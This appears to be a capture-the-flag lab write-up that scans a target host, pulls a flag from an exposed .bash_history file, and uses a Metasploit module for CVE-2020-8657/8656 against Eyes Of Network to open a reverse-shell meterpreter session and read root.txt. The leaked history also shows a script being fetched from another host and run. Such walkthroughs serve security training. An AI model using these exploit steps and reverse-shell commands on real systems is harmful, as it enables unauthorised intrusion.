 \clearpage
# CTF
## CTF 01

> Capture The Flag.
> 
> IP: 192.168.10.18
> 
> The flag is stored in the flag.txt file.

> Capture The Flag.
> 
> IP: 192.168.10.18
> 
> The flag is stored in the root.txt file.

### Nmap

To first gain knowledge on what services are running on the machine, a port scan is executed using nmap. With it, all 65535 possible TCP ports are scanned for an answer. If open, the tool will gain information on the running versions.

```bash
$ nmap -sV -Pn 192.168.10.18 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 15:58 CEST
Nmap scan report for 192.168.10.18
Host is up (0.0025s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.4 (protocol 2.0)
66/tcp   open  http            SimpleHTTPServer 0.6 (Python 2.7.5)
80/tcp   open  http            Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips
	mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
111/tcp  open  rpcbind         2-4 (RPC #100000)
443/tcp  open  ssl/http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips
	mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
2403/tcp open  taskmaster2000?
3306/tcp open  mysql           MariaDB (unauthorized)
8086/tcp open  http            InfluxDB http admin 1.7.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.22 seconds
```

The scan shows that there are five known services running:
- OpenSSH on port 22
- A python webserver on port 66
- An apache webserver on port 80 and 443
- A MariaDB database on port 3306
- An admin interface for InfluxDB on port 8086

### Website 1
Since the portscan showed two webservers, these are analysed. On port 66 there is a website, that looks like the website of [Backblaze](https://www.backblaze.com/). On the top is a navigation bar that shows a login button. The navigation seems to be broken, since the content won't change.

![First website](ctf1/website1.png)

After the initial look a gobuster scan is initiated, to gather information on known paths and files.

```bash
$ gobuster dir -u http://192.168.10.18:66 -w /usr/share/wordlists/dirb/common.txt -k 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.18:66
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 16:10:10 Starting gobuster in directory enumeration mode
===============================================================
/.bash_history        (Status: 200) [Size: 319]
/index.htm            (Status: 200) [Size: 17477]
/index_files          (Status: 301) [Size: 0] [--> /index_files/]
                                                                 
===============================================================
2022/06/13 16:10:15 Finished
===============================================================
```

Gobuster found a file called `.bash_history`, which is a file that is normally stored in the home directory of an user and contains the history of used commands. To show its content, curl is used:


```bash
$ curl http://192.168.10.18:66/.bash_history
nano /etc/issue
nano /etc/hosts
nano /etc/hostname
ls
crontab -e
ls
rm index.htm 
wget 192.168.2.43:81/db7i.htm
mv db7i.htm index.htm
nano /etc/hostname
nano /etc/hosts
ls
wget 192.168.2.43:81/logdel2
bash logdel2
wget 192.168.2.43:81/root.txt
mv root.txt flag.txt
nano flag.txt
ls
shutdown -h now
ip a
shutdown -h now
```

In the history file, a `flag.txt` is edited. So we try to request this file.

```bash
$ curl http://192.168.10.18:66/flag.txt -k        
cyberctfd{r5KYSTQmMve4KVIoaeaVQH4NUfD7caR6}
```

### Website 2
The second website on port 80 redirects, as expected, to port 443 using TLS and a self signed certficate. It shows a login screen to a service called `Eyes Of Network`

![Second website](ctf1/website2.png)

A link on the bottom of the page redirects so the softwares homepage. On it, there is news article about a security issue. After some research, we found that there is an exploit using meterpreter for CVE-2020-8657 and CVE-2020-8656.

```bash
$ msfconsole

> use exploit/linux/http/eyesofnetwork_autodiscovery_rce
msf6 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > set RHOSTS 192.168.10.18

msf6 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.9.5:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is EyesOfNetwork 5.3 or older with API version 2.4.2.
[*] Target is EyesOfNetwork version 5.3 or later. Attempting exploitation using
	CVE-2020-8657 or CVE-2020-8656.
[*] Using generated API key: 41a41f52395de8a08c2de5e1e80ab6f47f5655a53738ec9848f52171143e90d3
[+] Authenticated as user hwAENgHt
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3020772 bytes) to 192.168.10.18
[*] Meterpreter session 1 opened (192.168.9.5:1337 -> 192.168.10.18:51476 ) at
	2022-06-13 17:12:54 +0200

meterpreter > ls /
Listing: /
==========

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  0      fil   2021-04-03 16:50:18 +0200  .autorelabel
040555/r-xr-xr-x  36864  dir   2021-04-03 19:01:30 +0200  bin
040555/r-xr-xr-x  4096   dir   2021-04-03 19:00:33 +0200  boot
040755/rwxr-xr-x  3120   dir   2022-06-13 09:30:57 +0200  dev
040755/rwxr-xr-x  12288  dir   2022-06-13 09:30:58 +0200  etc
040755/rwxr-xr-x  4096   dir   2021-04-03 16:37:42 +0200  home
040555/r-xr-xr-x  4096   dir   2021-04-03 16:37:53 +0200  lib
040555/r-xr-xr-x  36864  dir   2021-04-03 16:38:08 +0200  lib64
040700/rwx------  16384  dir   2021-04-03 16:34:51 +0200  lost+found
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  media
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  mnt
040755/rwxr-xr-x  4096   dir   2018-04-11 06:59:55 +0200  opt
040555/r-xr-xr-x  0      dir   2022-06-13 09:30:51 +0200  proc
040550/r-xr-x---  4096   dir   2022-06-13 10:03:04 +0200  root
100644/rw-r--r--  44     fil   2022-05-15 16:57:57 +0200  root.txt
040755/rwxr-xr-x  1000   dir   2022-06-13 10:03:04 +0200  run
040555/r-xr-xr-x  16384  dir   2021-04-03 16:38:04 +0200  sbin
040755/rwxr-xr-x  4096   dir   2021-04-03 16:37:17 +0200  share
040755/rwxr-xr-x  4096   dir   2021-04-03 16:43:07 +0200  srv
040555/r-xr-xr-x  0      dir   2022-06-13 09:30:53 +0200  sys
041777/rwxrwxrwx  4096   dir   2022-06-13 17:12:55 +0200  tmp
040755/rwxr-xr-x  4096   dir   2021-04-03 16:35:14 +0200  usr
040755/rwxr-xr-x  4096   dir   2021-04-03 16:43:04 +0200  var

meterpreter > cat /root.txt
cyberctfd{cROGRMZeGLNFZ3XIfaeaKoT2OKTB4qhM}

```

The exploit can be used to execute code remotely and open a reverse shell to the attackers machine.